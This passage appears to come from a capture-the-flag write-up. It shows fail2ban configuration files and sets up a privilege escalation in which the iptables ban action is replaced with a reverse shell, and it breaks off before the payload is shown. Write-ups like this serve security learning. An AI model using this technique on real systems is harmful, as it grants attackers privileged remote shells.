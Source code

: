 Here are some notable sections of this file:

```
# External command that will take an tagged arguments to ignore, e.g. <ip>,
# and return true if the IP is to be ignored. False otherwise.
#
# ignorecommand = /path/to/command <ip>
ignorecommand =

# "bantime" is the number of seconds that a host is banned.
bantime  = 1m

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 10m

# "maxretry" is the number of failures before a host get banned.
maxretry = 2
```

```
# Default banning action (e.g. iptables, iptables-new,
# iptables-multiport, shorewall, etc) It is used to define
# action_* variables. Can be overridden globally or per
# section within jail.local file
banaction = iptables-multiport
```

So we've learned that:

- `ignorecommand` will run for every IP that connects
- a host will be banned for `1m` if they connect with `2` failed attempts in the last 10 minutes
- the applied ban will be `iptables-multiport`

Looking at the only file in `jail.d` we learn that fail2ban is enabled for ssh:

```
fox@fail:/etc/fail2ban/jail.d$ cat defaults-debian.conf 
[sshd]
enabled = true
```

Looking at the actual action configuration (in `/etc/fail2ban/action.d/iptables-multiport.conf`):

```
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
```

We see the command that will be executed when a host is banned... we'll just put a reverse shell here... I change that part of the file to:
